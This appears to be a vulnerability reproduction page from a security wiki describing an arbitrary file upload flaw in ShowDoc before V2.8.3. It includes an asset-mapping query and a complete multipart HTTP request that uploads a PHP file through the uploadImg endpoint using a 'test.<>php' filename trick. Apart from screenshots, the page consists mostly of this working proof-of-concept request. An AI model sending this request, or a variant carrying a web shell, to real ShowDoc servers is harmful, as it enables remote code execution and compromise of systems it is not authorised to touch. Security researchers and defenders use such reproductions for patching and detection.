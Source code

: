 # ShowDoc PageController.class.php arbitrary file upload vulnerability

## Vulnerability Description

ShowDoc has a vulnerability to upload any file. Attackers can upload malicious files by constructing special data packets.

## Vulnerability Impact

  <span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">ShowDoc < V2.8.3</span>

## Network surveying and mapping

  <span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">app="ShowDoc"</span>

## Vulnerability reappears

The homepage of the website is as follows

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313153125074.png)



Construct the following data packet upload php file

```plain
POST /index.php?s=/home/page/uploadImg HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:81.0) Gecko/20100101 Firefox/81.0
Content-Length: 239
Content-Type: multipart/form-data; boundary=--------------------------921378126371623762173617
Accept-Encoding: gzip

----------------------------921378126371623762173617
Content-Disposition: form-data; name="editormd-image-file"; filename="test.<>php"
Content-Type: text/plain

<?php phpinfo();?>
----------------------------921378126371623762173617--
```



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313153125267.png)



Access to the echo path

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313153125177.png)


